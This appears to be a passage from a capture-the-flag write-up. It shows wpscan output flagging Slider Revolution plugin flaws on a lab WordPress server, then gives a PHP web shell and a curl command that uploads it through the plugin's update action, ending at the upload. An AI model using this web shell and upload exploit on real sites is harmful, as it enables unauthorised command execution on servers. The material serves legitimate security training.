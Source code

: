 The http server hosts a wordpress site. As hinted in the challenge description,
we run the `wpscan` utility to scan for vulnerable components:

```
[...]
[+] revslider
 | Location: http://172.30.0.3/wp-content/plugins/revslider/
 |
 | Detected By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WordPress Slider Revolution Local File Disclosure
 |     Fixed in: 4.1.5
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/7540
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1579
 |      - https://www.exploit-db.com/exploits/34511/
 |      - https://www.exploit-db.com/exploits/36039/
 |      - http://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html
 |      - http://packetstormsecurity.com/files/129761/
 |
 | [!] Title: WordPress Slider Revolution Shell Upload
 |     Fixed in: 3.0.96
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/7954
 |      - https://www.exploit-db.com/exploits/35385/
 |      - https://whatisgon.wordpress.com/2014/11/30/another-revslider-vulnerability/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_revslider_upload_execute
 |
 | The version could not be determined.
```

There are two vulnerabilities, one for file read and one for file write.
Unfortunately, the arbitrary file read isn't enough for us to read out the flag,
since the flag is in a directory only readable by root. This means we first need
to be able to log in as root on the webserver.

We use the upload vulnerability to upload a simple php file we can execute
scripts from.

```php
<?php
system($_GET['cmd'])
?>
```

[ZIP](wordpress/revslider.zip) the file and upload it.

```
$ curl http://172.30.0.3/wp-admin/admin-ajax.php -F "action=revslider_ajax_action" -F client_action=update_plugin -F update_file=@revslider.zip
```
